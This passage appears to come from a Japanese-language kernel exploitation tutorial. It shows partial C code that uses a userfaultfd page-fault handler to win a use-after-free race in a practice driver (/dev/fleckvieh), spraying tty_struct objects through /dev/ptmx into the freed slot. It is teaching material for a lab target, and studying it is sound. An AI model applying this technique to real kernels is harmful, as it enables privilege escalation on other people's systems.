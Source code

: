 ```c
    if (pollfd.revents & POLLERR || pollfd.revents & POLLHUP)
      fatal("poll");

    /* ページフォルト待機 */
    if (read(uffd, &msg, sizeof(msg)) <= 0) fatal("read(uffd)");
    assert (msg.event == UFFD_EVENT_PAGEFAULT);

    /* 要求されたページとして返すデータを設定 */
    switch (fault_cnt++) {
      case 0: {
        puts("[+] UAF read");
        /* [1-2] `blob_get`によるページフォルト */
        // victimを解放
        del(victim);

        // tty_structをスプレーし、victimの場所にかぶせる
        int fds[0x10];
        for (int i = 0; i < 0x10; i++) {
          fds[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
          if (fds[i] == -1) fatal("/dev/ptmx");
        }

        // このページのデータを持つバッファ（copy_to_userで上書きされるので適当）
        copy.src = (unsigned long)buf;
        break;
      }

      case 1:
        /* [2-2] `blob_set`によるページフォルト */
        // victimを解放
        break;
    }

    copy.dst = (unsigned long)msg.arg.pagefault.address;
    copy.len = 0x1000;
    copy.mode = 0;
    copy.copy = 0;
    if (ioctl(uffd, UFFDIO_COPY, &copy) == -1) fatal("ioctl(UFFDIO_COPY)");
  }

  return NULL;
}

...

int main() {
  /* メインスレッドとuffdハンドラが必ず同じCPUで動くよう設定する */
  CPU_ZERO(&pwn_cpu);
  CPU_SET(0, &pwn_cpu);
  if (sched_setaffinity(0, sizeof(cpu_set_t), &pwn_cpu))
    fatal("sched_setaffinity");
    
  fd = open("/dev/fleckvieh", O_RDWR);
  if (fd == -1) fatal("/dev/fleckvieh");

  void *page;
  page = mmap(NULL, 0x2000, PROT_READ | PROT_WRITE,
              MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  if (page == MAP_FAILED) fatal("mmap");
  register_uffd(page, 0x2000);

  buf = (char*)malloc(0x400);
  victim = add(buf, 0x400);
```

[^1]: 初回アクセス時にページフォルトを発生させたいので`MAP_POPULATE`を付けていません。
[^2]: 直接`printf`すると、`printf`関数内でフォルトが発生してハンドラ中の`puts`や`printf`とバッファリングのデッドロックが発生してプログラムが停止するので注意しましょう。カーネルexploitの文脈では、カーネル空間からフォルトを発生されるので気にする必要はありません。